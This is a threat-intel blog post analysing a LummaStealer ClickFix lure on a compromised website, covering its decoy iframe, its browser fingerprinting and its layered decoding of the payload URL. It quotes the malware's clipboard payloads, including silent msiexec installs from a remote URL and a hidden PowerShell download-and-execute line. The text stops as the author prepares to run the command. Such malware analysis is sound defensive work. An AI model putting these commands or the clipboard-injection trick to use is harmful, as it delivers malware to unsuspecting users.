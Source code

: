 ```yaml
---
layout: post
title:  "LummaStealer - Malware Analysis"
date:   2025-06-16 21:00:00 +1000
categories: threat intel
---
```


<style>
  body { font-size: 13px; }
  h1 { font-size: 19px !important; }
  h2 { font-size: 17px !important; }
  h3 { font-size: 15px !important; }
</style>

### Overview

Full malware analysis on LummaStealer on a compromised website. This one took me some time as the malware is super impressive.

LummaStealer has lots of different variants. Therefore, malware analysis found online varies significantly. A compromised website I've been monitoring that has pushed three different samples of LummaStealer to it's victims in the past week. Furthermore, each time you query the stage one domain the network IOCs change. So, it's super neat. One cool pickup that does seem consistent is. If your host in running in Russian, the malware terminates. Make of that what you like.

### LummaStealer Malware Analysis (27th July 2025)

I've booted up my Windows 10 VM so we can whack this through and see what happens.

Here is the initial ClickFix prompt on load of the website. First, lets see how this got here? Where from? I've checked the Network tab in dev tools and found two suspicious domains that my browser has received HTTP requests from as a result of visiting this website
- api[.]brainbotfilebeatsave[.]com
- fullporner[.]com

![Stage 1](/images/cloudflare_stage1.PNG)
![Stage 2](/images/cloudflare_stage2.PNG)

We can see we sent a GET request to brainbot and recieved some JS as a response. The IP of brainbot is 104.21.48.1. Which is a CloudFlare proxy IP. Side note but an important one - adversaries seem to use cloudflare IPs to mask the IPs of their webservers quite frequently. Given that this attack uses a cloudflare clickfix prompt its more believable for level 0 soc analysts triaging this alert. 

![First GET Request to Brainbot](/images/get_brainbot.PNG)

Secondly we can see a GET request fullporner[.]com directly after sending a GET request to brainbot. 

![First GET Request to FullPorner](/images/fullporner_referral.PNG)

Let's inspect the script brainbot sent to us after our GET request.

First up we can see functions for browser fingerprinting and IP checking. Actually, what's really cool is the .js makes you query IP config sites yourself! 

![IP query](/images/ip_query.PNG)

Now we have the .html, .css and a bit of .js that displays the fake verification page and captures the results. 

![Cloudflare Clickfix](/images/cloudflare_html.PNG)

At the start of the .html with have an iFrame to fullporner[.]com but it doesn't look like it does anything? Now I'm almost certain this for some sort of decoy. I thought maybe brainbot was retrieving suspicious stuff from fullporner[.]com but nope. I was wrong. I guess if a SOC analyst looks at this alert they might think it's some dodgy porn page, rather than a LummaStealer loader. I'm not too sure, this is hilarious.

![iFrame](/images/full_porner.PNG)

Ok now lets get into the good stuff. 

![sjsh function](/images/sjsh_malicious_function.PNG)

We can see the function (sjsh) sends a GET request to an unknown domain. When loaded, it copies the constant 'command' to the users clipboard. Now the idiots have commented out earlier payloads. So we can infact see four different payloads! Interesting there is both a powershell and multiple msiexec payloads. This goes back to my comment earlier, there is so many different payloads for Lumma. Anyway, lets have a look at what some of the flags mean in these payload commands. 
1. ```const command = `msiexec /qn /i ${gotourl};```
- /i = tells msiexec to install the following package
- /qn = quiet mode with no UI for install
2. ```//const command = `msiexec KLSK=1101 /package ${gotourl} /promptrestart LAPBO=189 /quiet NIANS=299;```
3. ```const command = `msiexec SKSIA=1401 /package ${gotourl} /promptrestart LAPBOS=119 /passive NIANS=299;```
- /package = specifies .msi to install (same as /i)
- /promptrestart = restarts prompt at end if needed
- /quiet = quiet mode install
- KLSK | LAPBO | NIANS | These aren't msiexec flags. They could potentially define custom properties in the .msi file.
4. ```//const command = `powershell -w h -c "$f=$env:TEMP+'\\'+[guid]::NewGuid()+'.ps1';curl ${gotourl} -o $f;powershell -w h -ep Bypass -f $f"`;```
- (-wh h) = WindowStyle and hidden
- (-c) = command
- ($f=$env:TEMP+'\\'+[guid]::NewGuid()+'.ps1') = Creates random .ps1 script in Temp directory
- (curl ${gotourl} -o $f) = Downloads file from URL
- (-ep Bypass) = disables execution policy
- (-f) = runs file

Now we can see the payload, but no domains. So lets check out how 'gotourl' is calculated because I reckon it'll give us the domain. It looks heavily obfuscated. Here is a snippet of the .js of it. Here is a step by step breakdown of it.
1. Function takes the 'jsh' value when the function is called
2. Sends a GET request to /?jsc=<jsh>&f=<f>&t=<rt>
3. If the request is successful and a 200 is returned. The function waits for xhr.onload to complete
- ```let gotourl = hex2a(strrev(atob(hex2a(strrev(atob(xhr.response))))))```
- B64 decodes raw response (atob(xhr.response))
- Reverses the string (strrev(atob_returned_value))
- Converts string to ASCII (hex2a(strrev_returned_value))
- Now repeat again! Because there are 6 layers!
4. Now we have our domain ```window.gotourl = URL```

So now we know how this works. Lets try grab this domain. After clicking the tick box, I send a GET request to brainbot with the jsc flag. This contains all the details brainbot needs to shoot me back a domain.

![encoded jsc](/images/jsc_obfuscate.PNG)

Now this is what brainbot returned. Also side note you can see the requests to the IP check domains on the side as well.

![brainbot base64 response](/images/brainbot_response.PNG)

Lastly, lets deobfuscate. My friend ChatGPT will assist here.

![gospel output](/images/payload_url.PNG)

Plot twist! You have got to be joking. So essentially what this means is. LummaStealer is getting it's payloads from FullPorner. Lets check out this .php page and see what its got.

![403 fullporner](/images/fullporner_result.PNG)

No result. Strange. Perhaps it checks for user agents and only accepts from certain thingos. Anyway. Lets run this command shall we. Let's clickfix ourselves.

